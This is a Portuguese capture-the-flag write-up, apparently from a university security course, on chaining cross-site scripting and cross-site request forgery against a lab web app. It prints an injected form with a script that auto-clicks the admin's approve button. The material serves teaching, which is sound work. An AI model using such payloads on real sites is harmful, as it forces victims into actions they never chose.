






# CTF Semana #6 (XSS + CSRF)

## Recolha de informação

Começamos por aceder à página  **http://ctf-fsi.fe.up.pt:5004**:  



Ao clicar no botão *submit*, verificamos que o administrador é redirecionado para a página **http://ctf-fsi.fe.up.pt:5005**, onde pode aceitar ou rejeitar os pedidos efetuados:



Como o pedido é aceite quando *Give the flag* é clicado, inspecionamos o botão:

```html
<form method="POST" action="/request/504cc7cb360087019995001417c1c577a59d1012/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag" disabled="">
    </div>
</form>
```

Analisando o código html, concluimos que há um redirecionamento para a página **http://ctf-fsi.fe.up.pt:5005/request/request_id/approve**, onde o *request_id* corresponde ao id do pedido atual.

### Reconhecimento da vulnerabilidade

Neste desafio, exploramos duas técnicas diferentes:

- **Cross-site Scripting** : injetar código em input do utilizador, nomeadamente no input presente na página **http://ctf-fsi.fe.up.pt:5004**;

- **Cross-site Request Forgery** : numa página com uma dada origem (request page), fazer pedidos a uma página numa origem diferente (admin page).

Combinando estas duas técnicas, conseguimos obter a flag se injetarmos código no input do utilizador de modo a que o botão *Give the flag* seja clicado, levando a um redirecionamento para a página **http://ctf-fsi.fe.up.pt:5005/request/request_id/approve**.


### Exploração da vulnerabilidade

Usando javascript, modificamos o form para que o botão fosse efetivamente clicado:

```html
<form method="POST" action="http://ctf-fsi.fe.up.pt:5005/request/504cc7cb360087019995001417c1c577a59d1012/approve" role="form">
    <div class="submit">
        <input type="submit" id="giveflag" value="Give the flag">
    </div>
    <script>
        document.getElementById('giveflag').click();
    </script>
</form>
```

Inserindo este código, verificamos que não temos permissão para aceder ao url da ação do form, uma vez que não somos admins:



Assim sendo, impedimos o redirecionamento do nosso lado, forçando a que este seja feito pelo admin. Para tal, desabilitamos o javascript no nosso browser:



Submetendo novamente o form, somos redirecionados para página correta:



Como o javascript foi desativado, é necessário fazermos reload da página manualmente:



Por fim, obtivemos a flag pedida.

